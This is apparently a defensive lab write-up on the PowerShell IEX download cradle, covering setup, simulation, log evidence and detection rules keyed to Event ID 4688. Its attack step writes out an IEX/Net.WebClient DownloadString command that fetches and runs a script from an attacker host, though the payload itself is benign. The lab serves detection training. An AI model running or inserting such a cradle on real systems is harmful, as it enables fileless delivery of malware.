







# Case 7 – PowerShell IEX Download Cradle

## Overview

This lab demonstrates a common PowerShell attack technique where an attacker downloads and executes a remote script directly in memory using `IEX` and `Net.WebClient` .

This technique is frequently used by real-world malware and red team tools.

Examples include:

- Emotet
- TrickBot
- Cobalt Strike loaders
- Fileless malware

The attack downloads a PowerShell payload from a remote server and executes it in memory.

---

## MITRE ATT&CK Mapping

Technique | ID
--- | ---
PowerShell | T1059.001
Ingress Tool Transfer | T1105
Command Execution | T1059

---

## Lab Setup

Attacker Machine
Kali Linux
IP: 192.168.100.20

Target Machine
Windows 10
IP: 192.168.100.10

Logs monitored
Windows Security Log
Event ID 4688

---

## Attack Simulation

### Step 1 – Create Payload (Kali)
nano payload.ps1

Payload content
Write-Output "Simulated PowerShell attack executed"

---

### Step 2 – Start HTTP Server
python3 -m http.server 8000

Server output
Serving HTTP on 0.0.0.0 port 8000

---

### Step 3 – Execute Attack (Windows)
Run PowerShell as Administrator

IEX (New-Object Net.WebClient).DownloadString("http://192.168.100.20:8000/payload.ps1")

Output
Simulated PowerShell attack executed

---

## Evidence of Attack

Kali HTTP Server logs
GET /payload.ps1 HTTP/1.1 200

Windows Security Event Log

Event ID: 4688
Process: powershell.exe
CommandLine:
IEX (New-Object Net.WebClient).DownloadString

---

## Indicators of Compromise

Security analysts should monitor for:

powershell.exe
IEX
New-Object Net.WebClient
DownloadString
http requests

These indicators strongly suggest fileless PowerShell activity.

---

## Detection Logic

Possible detection strategy

- Monitor Event ID 4688
- Look for PowerShell command lines containing

IEX
DownloadString
Net.WebClient

## Screenshots

### 1. Creating PowerShell Payload in Kali

This screenshot shows the creation of the PowerShell payload file `payload.ps1` on the Kali Linux attacker machine using the nano editor.

---

### 2. Payload Script Content

This image displays the content of the PowerShell payload script that will be downloaded and executed on the Windows target system.

---

### 3. Starting HTTP Server

The attacker machine starts a Python HTTP server on port **8000** to host the malicious PowerShell script.

---

### 4. Executing the Attack

The PowerShell command uses **IEX and Net.WebClient DownloadString** to retrieve and execute the remote script directly in memory.

---

### 5. HTTP Request Received

The Kali server logs show a **GET request** from the Windows target machine requesting the payload script.

---

### 6. Event ID 4688 Detection

Windows Security Logs capture **Event ID 4688**, indicating a new process creation related to PowerShell execution.

---

### 7. Additional Event Log Evidence

This screenshot shows additional event log details that help security analysts investigate the suspicious PowerShell activity.

